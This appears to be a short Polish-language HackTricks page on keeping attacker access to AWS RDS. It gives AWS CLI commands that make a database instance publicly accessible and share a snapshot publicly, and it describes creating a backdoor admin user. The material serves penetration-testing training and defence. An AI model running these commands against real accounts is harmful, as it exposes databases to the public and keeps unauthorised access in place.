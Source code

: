 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Aby uzyskać więcej informacji, sprawdź:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Uczyń instancję publicznie dostępną: `rds:ModifyDBInstance`

Atakujący z tym uprawnieniem może **zmodyfikować istniejącą instancję RDS, aby umożliwić publiczną dostępność**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Utwórz użytkownika administratora w bazie danych

Atakujący może po prostu **utworzyć użytkownika w bazie danych**, więc nawet jeśli hasło głównego użytkownika zostanie zmienione, **nie traci dostępu** do bazy danych.

### Uczyń migawkę publiczną
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
